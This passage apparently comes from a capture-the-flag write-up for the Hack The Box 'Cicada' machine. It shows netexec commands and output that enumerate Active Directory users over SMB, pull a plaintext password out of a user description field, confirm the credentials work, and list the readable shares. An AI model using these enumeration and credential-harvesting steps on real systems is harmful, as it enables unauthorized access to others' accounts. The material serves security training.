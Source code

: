 We enumerate the `users` as well:
```
netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users 
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)                                                                                                                                           
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-                         
SMB         10.10.11.35     445    CICADA-DC        Administrator                 2024-08-26 20:08:03 0       Built-in account for administering the computer/domain                                                                                                                                    
SMB         10.10.11.35     445    CICADA-DC        Guest                         2024-08-28 17:26:56 0       Built-in account for guest access to the computer/domain                                                                                                                                  
SMB         10.10.11.35     445    CICADA-DC        krbtgt                        2024-03-14 11:14:10 0       Key Distribution Center Service Account                                                                                                                                                   
SMB         10.10.11.35     445    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 1        
SMB         10.10.11.35     445    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 1        
SMB         10.10.11.35     445    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0        
SMB         10.10.11.35     445    CICADA-DC        david.orelious                2024-03-14 12:17:29 1       Just in case I forget my password is aRt$Lp#7t*VQ!3                                                                                                                                       
SMB         10.10.11.35     445    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 1        
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated 8 local users: CICADA

```


And we found the following credentials in the `comment` section:
`david.orelious:aRt$Lp#7t*VQ!3`


We need to ensure if the credentials are working:
```
netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3'             
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
```


And yeah, credentials are working, but we know from enumerating the `AD in bloodhound` that this user has `no remote management property`, so we `cannot login via evil-winrm`, also we didn't find anything useful in `bloodhound`


So we keep enumerating the `smb`:
```
netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
```